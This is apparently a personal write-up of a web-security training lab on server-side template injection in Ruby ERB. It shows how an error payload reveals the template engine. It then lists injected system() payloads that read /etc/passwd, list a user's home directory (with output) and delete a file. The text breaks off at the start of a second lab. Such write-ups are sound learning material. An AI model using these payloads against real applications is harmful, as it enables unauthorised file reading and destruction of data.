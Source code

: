 #### We will follow this methedology during testing this vulnerability: 

![[Pasted image 20220527141408.png]]

## Lab1: Basic server-side template injection
> Notice that when you try to view more details about the first product, a `GET` request uses the `message` parameter to render `"Unfortunately this product is out of stock"` on the home page.

payload =>  <%=foobar%>
* Generally, We will try to cause an error to know the template engine so, you can try any payload. 
- I  will use it in my payload to identify the type of the template in the website in order to identify the correct syntax for this template.
- because the resulting error message will tell me exactly what the template engine is. 

![[Basic_server_side_template_injection.png]]

>When i tried this invalid syntax for this template, this error appeared to me and telled me this is an `erb` template.

ok, after i detected and idenfied the template, i have read the documentaion of the erb.

* Check out this : https://docs.ruby-lang.org/en/2.3.0/ERB.html

- you can use this syntax to write your code: 
==> `<%= someExpression %>`
> <% Ruby code -- inline with output %>
> <%= Ruby expression -- replace with result %>
   <%# comment -- ignored -- useful in testing %>
   % a line of Ruby code -- treated as <% line %> (optional -- see ERB.new)
   
- you can use the `system()` method to execute arbitrary system commands.
 
==> read the passwd file.
> <%= system('cat /etc/passwd') %>


><%= system('ls -al /home/carlos') %>
>> total 32
>> drwxr-xr-x 2 carlos carlos 4096 May 28 06:35 . 
>> drwxr-xr-x 7 root root 4096 May 24 04:17 .. 
>>  -rw-rw-r-- 1 carlos carlos 132 May 28 06:35 .bash_history 
>>  -rw-r--r-- 1 carlos carlos 220 Feb 25 2020 .bash_logout 
>>  -rw-r--r-- 1 carlos carlos 3771 Feb 25 2020 .bashrc 
>>  -rw-r--r-- 1 carlos carlos 807 Feb 25 2020 .profile 
>>  -rw-rw-r-- 1 carlos carlos 6816 May 28 06:35 morale.txt true

> <%= system('rm -r /home/carlos/morale.txt') %>

-----------------------------------------------------------------------
-----------------------------------------------------------------------

## Lab2: Basic SSTI (code context)
- I will inject any invalid syntax for reading the error message to know the template engine.
  